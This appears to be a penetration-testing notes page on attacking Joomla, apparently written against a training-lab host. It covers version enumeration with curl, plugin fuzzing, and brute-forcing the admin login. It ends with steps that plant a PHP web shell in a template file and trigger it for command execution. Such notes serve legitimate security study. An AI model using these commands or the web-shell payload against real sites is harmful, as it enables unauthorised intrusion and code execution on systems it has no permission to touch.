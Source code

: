 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Joomla

## General Information

Joomla is commonly used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its browser's favicon (Figure 1).

<figure><img src="../../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption><p>Figure 1: Joomla's favicon.</p></figcaption></figure>

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```
{% endtab %}
{% endtabs %}

In certain installs, we may be able to discover the version from JavaScript files:

{% tabs %}
{% tab title="js" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/media/system/js
```
{% endcode %}
{% endtab %}

{% tab title="joomla.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="cache.xml (plugins)" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="language.xml" %}
{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -
```
{% endcode %}
{% endtab %}
{% endtabs %}

Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)).

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}

> [Metasploit's joomla\_plugins](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_plugins/)

### Automated

#### droopescan <a href="#droopescan" id="droopescan"></a>

[droopescan](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well.

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### joomla-bruteforce <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

> _Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to brute-forcing an account. But it isn't enabled by default._

The default administrator account is `admin` and the password is set at install time. We can use [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) to brute force for credentials:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}

> [joombrute](https://github.com/0rbz/JoomBrute) | [Metasploit's joomla\_bruteforce\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_bruteforce\_login/) | [nmap's http-joomla-brute](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) | [nmap's http-form-brute](https://nmap.org/nsedoc/scripts/http-form-brute.html)

### RCE <a href="#code_execution" id="code_execution"></a>

#### **Web Shell**

1. Log in with the obtained credentials at `/administrator`.
2. Navigate to `Templates` and choose one.
3. Click on a page, such as `error.php`, to pull up the source code.
4. Add a PHP webshell, such as `system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`.
5. Click `Save & Close`.
6. Connect to the webshell for code execution.

<figure><img src="../../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```
{% endcode %}

## Known Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
